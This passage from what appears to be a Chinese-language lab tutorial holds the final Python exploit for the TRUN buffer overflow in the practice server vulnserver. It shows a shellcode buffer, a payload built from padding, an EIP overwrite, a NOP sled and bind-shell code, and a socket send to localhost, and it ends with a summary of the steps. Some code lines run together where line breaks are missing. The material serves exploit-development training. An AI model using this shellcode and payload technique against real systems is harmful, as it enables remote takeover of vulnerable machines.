buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"payload = ""
payload += trun
payload += "A" * offset
payload += eip
payload += nop
payload += buf
payload += "C" * (4099 - offset - len(eip) - len(nop) - len(buf))print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)    
s.close()
```

一旦我们运行了`final_trun.py`脚本，我们就可以成功地在目标系统上打开 bind shell。



# 结论

概括一下:

*   我们模糊了`vulnserver` `TRUN`命令
*   找到了有漏洞命令的入口点
*   找到了控制`EIP`的偏移量
*   在应用程序的 dll 中找到了`JMP ESP`
*   引入了绑定外壳代码来完成利用。

这是有趣的第一个`vulnserver` fuzzing + exploit。感谢阅读！

